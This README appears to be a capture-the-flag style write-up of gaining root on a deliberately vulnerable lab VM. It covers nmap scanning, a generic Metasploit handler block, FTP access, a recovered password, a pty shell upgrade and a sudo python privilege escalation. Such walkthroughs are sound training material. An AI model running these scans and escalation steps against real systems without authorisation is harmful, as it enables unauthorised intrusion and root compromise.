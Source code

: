 # Privilege Escalation Project

## Overview

In this project, the objective was to obtain root access on a provided virtual machine (VM) without visible IP addresses. The VM image `01-Local1.ova` was used, and no modifications to GRUB or the VM configuration were allowed. The approach involved discovering the VM's IP address, scanning for open ports, identifying running services, and exploiting vulnerabilities to gain root access.

## Prerequisites

- **VirtualBox**: Ensure VirtualBox is installed and configured to run the provided VM.
- **Nmap**: Network scanning tool.
- **Metasploit**: For exploitation (optional, based on findings).
- **Additional Tools**: tcpdump, Wireshark, nikto, OpenVAS, etc. (as needed).

## Setup

### Install the VM

1. Download the VM image: `01-Local1.utm.zip` (for Apple Silicon CPUs).
2. Import the VM into VirtualBox:
   1. Open VirtualBox.
   2. Go to `File > Import Appliance`.
   3. Select the downloaded file and follow the prompts.

### Configure Networking

Ensure the VM is set up with the appropriate network configuration (NAT or Bridged Adapter) to allow for network scanning.

## Steps

### 1. Discover the VM's IP Address

**Network Scan**: Use `nmap` to identify active IP addresses on the network:

```bash
nmap -sP 192.168.1.0/24
```

Advanced Scan: Once you identify possible IP addresses, perform a more detailed scan to confirm the VM's IP address:

```bash
nmap -sP -v <POTENTIAL_IP_ADDRESS>
```

2. Scan for Open Ports and Services

Port Scan: Scan all ports on the identified IP address:

```bash
nmap -sS -p- <IP_OF_THE_VM>
```

Service and Version Detection: Determine the services running and their versions:

```bash
nmap -sV <IP_OF_THE_VM>
```

3. Identify Vulnerabilities

Service Analysis: Based on the services and versions detected, research known vulnerabilities. Use databases like CVE and Exploit-DB to find relevant exploits.

Vulnerability Scanning: Optionally, use vulnerability scanning tools like nikto, OpenVAS, or Nessus for a comprehensive scan.
4. Exploit Vulnerabilities

Exploit Identification: If you find a vulnerable service, you may use tools like Metasploit to exploit it. Here’s an example command to use Metasploit for an exploit:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD <PAYLOAD_TYPE>
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
exploit
```

5. Access the VM via FTP

After analyzing the vulnerabilities, I discovered that FTP access was possible.

Steps to Exploit FTP Access (after connexion):

Navigate to /home:

```bash
cd /home
ls -a
```

We found an shrek user and important.txt file.

Read important.txt:

```bash
cat /home/important.txt
```

Result: it tells me to find and run /.runme.sh

Find and Read runme.sh:

```bash
find / -name ".runme.sh" 2>/dev/null
cat /.runme.sh
```

Result: I found an an encrypted string

Decrypt the Password Hash:

Result: youaresmart (and i guess its the password of the user we found "shrek")

### Switch to shrek User:

Upgrade the remote to a full tty:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Switch to shrek user and use : youaresmart as password

Enter the password: youaresmart

Check Sudo Privileges:

```bash
sudo -l
```

Result:

javascript

(root) NOPASSWD: /usr/bin/python3.5

- Use Python to Spawn Root Shell:

Run Python as root:

```bash
sudo /usr/bin/python3.5
```

In the Python shell:

```bash
import os
os.system("/bin/bash")
```

Retrieve the Flag

```bash
cd /root
ls -a
cat /root/root.txt
```

Conclusion

In this project, the process involved discovering the VM's IP address, scanning for open ports, and identifying vulnerabilities. By exploiting the FTP service and using a discovered password hash, I was able to switch users and gain root access. The final flag was retrieved from the root directory.

github.com/dgthegeek